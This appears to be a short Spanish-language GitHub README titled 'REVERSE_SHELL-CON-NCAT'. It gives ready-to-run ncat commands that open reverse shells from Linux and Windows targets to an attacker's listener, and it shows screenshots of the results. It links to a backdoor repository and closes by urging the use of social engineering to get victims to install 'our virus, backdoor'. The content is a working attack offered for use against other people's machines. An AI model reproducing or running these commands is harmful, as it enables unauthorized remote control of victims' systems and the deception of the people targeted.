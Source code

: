 # REVERSE_SHELL-CON-NCAT

# Infectar un sistema linux y windows.
# Con tan solo 2 lineas de comando !


* LISTENER (HACKER) > PARROT 

```bash
ncat -l -v 4444
```

* TARGET > UBUNTU 

```bash
ncat -v 192.168.1.200 4444 -e "/bin/sh"
```

# Result > ![backdoor](https://user-images.githubusercontent.com/97669969/154819413-fd945688-3170-46e5-995e-46fd7f491333.jpg)


# Windows 

* LISTENER (HACKER) > PARROT

```bash
ncat -l -v 4444
```

* TARGET > WINDOWS 

```bash
ncat -v 192.168.1.200 4444 -e cmd
```
# RESULT >
![windows shell](https://user-images.githubusercontent.com/97669969/154819759-1af4849a-9bc7-4e86-a5e2-42a834a89e58.jpg)





# " La Navaja Suiza " EN ACCION !




* La IP debe ser la tuya. 
* El puerto esta por defecto en 4444. 


# Por supuesto aqui estamos haciendo pruebas de nuestro backdoor. 
* Tenemos que usar un lenguaje y escribir nuestro codigo y crear un archivo executable tanto en linux como en windows.
# El desarrollo del backddor y listener se encuentra en el siguente repo > https://github.com/tmcyberagent/BACKDOOR-LABORATORIO-



* Y por suspuesto > usar ingenieria social para hacer que esa persona instale nuestro virus, backdoor..etc.


